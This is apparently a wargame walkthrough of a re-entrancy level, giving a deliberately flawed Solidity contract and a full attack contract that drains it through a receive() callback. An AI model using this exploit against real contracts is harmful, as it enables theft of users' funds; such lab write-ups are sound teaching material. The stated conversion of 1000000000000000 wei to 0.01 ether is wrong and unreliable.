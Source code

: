 # Level 10 - Re-entrancy

### Objective

The objective of this level is as follows:

1. Steal all the funds from the contract.

### Contract

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Reentrance {

  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  receive() external payable {}
}
```

### Solution

In this level, we will perform a re-entrancy attack.

First, we identify the value of funds in the contract:

```
await getBalance(instance)

```

Next, let us implement the following contract in Remix:

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface level_10 {
    function donate(address _to) external payable;
    function withdraw(uint _amount) external;
}

contract ReentranceAttack {
    address public owner;
    level_10 targetContract;
    uint targetValue = 1000000000000000;

    constructor(address _targetAddr) public {
        targetContract = level_10(_targetAddr);
        owner = msg.sender;
    }

    function balance() public view returns (uint) {
        return address(this).balance;
    }

    function donateAndWithdraw() public payable {
        require(msg.value >= targetValue);
        targetContract.donate.value(msg.value)(address(this));
        targetContract.withdraw(msg.value);
    }

    function withdrawAll() public returns (bool) {
        require(msg.sender == owner, "my money!!");
        uint totalBalance = address(this).balance;
        (bool sent, ) = msg.sender.call.value(totalBalance)("");
        require(sent, "Failed to send Ether");
        return sent;
    }

    receive() external payable {
        uint targetBalance = address(targetContract).balance;
        if (targetBalance >= targetValue) {
          targetContract.withdraw(targetValue);
        }
    }
}
```

We deploy `ReentranceAttack` with the level 10 contract address.

Next, we call `donateAndWithdraw` with `1000000000000000` wei (`0.01` ether).

Finally, lets check the value of the contract to ensure that it is zero:

```
await getBalance(instance)

```

Done!
